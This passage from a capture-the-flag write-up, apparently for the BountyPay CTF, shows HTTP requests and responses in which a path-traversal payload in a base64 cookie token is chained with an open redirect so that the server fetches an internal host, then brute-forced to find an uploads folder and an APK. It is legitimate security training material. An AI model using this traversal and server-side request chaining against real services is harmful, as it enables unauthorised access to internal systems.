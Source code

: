 ```
"data":"<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>Software Storage<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <h1 style=\"text-align: center\">Software Storage<\/h1>\n            <form method=\"post\" action=\"\/\">\n                <div class=\"panel panel-default\" style=\"margin-top:50px\">\n                    <div class=\"panel-heading\">Login<\/div>\n                    <div class=\"panel-body\">\n                        <div style=\"margin-top:7px\"><label>Username:<\/label><\/div>\n                        <div><input name=\"username\" class=\"form-control\"><\/div>\n                        <div style=\"margin-top:7px\"><label>Password:<\/label><\/div>\n                        <div><input name=\"password\" type=\"password\" class=\"form-control\"><\/div>\n                    <\/div>\n                <\/div>\n                <input type=\"submit\" class=\"btn btn-success pull-right\" value=\"Login\">\n            <\/form>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"}
```

It worked! But this was not the end. The HTML that was returned by the response seems to contain a login form (POST) to access the **Software Storage** service. Since the backend server was performing GET requests, it was not possible to interact with this form. I had to find something else.

I fired up Burp Intruder and started scanning for directories. Again Hackvector made the process a breeze:

```
GET /statements?month=11&year=2019 HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://app.bountypay.h1ctf.com/
Cookie: token=<@base64_1>{"account_id":"../../../redirect?url=https://software.bountypay.h1ctf.com/§§#","hash":"de235bffd23df6995ad4e0930baac1a2"}<@/base64_1>
```

After some time, I discovered the `uploads` folder that contained the **BountyPay.apk**:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 17:01:42 GMT
Content-Type: application/json
Connection: close
Content-Length: 493

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/uploads#\/statements?month=11&year=2019",
"data":"<html>\n<head><title>Index of \/uploads\/<\/title><\/head>\n<body bgcolor=\"white\">\n<h1>Index of \/uploads\/<\/h1><hr><pre><a href=\"..\/\">..\/<\/a>\n<a href=\"\/uploads\/BountyPay.apk\">BountyPay.apk<\/a>                                        20-Apr-2020 11:26              4043701\n<\/pre><hr><\/body>\n<\/html>\n"}
```
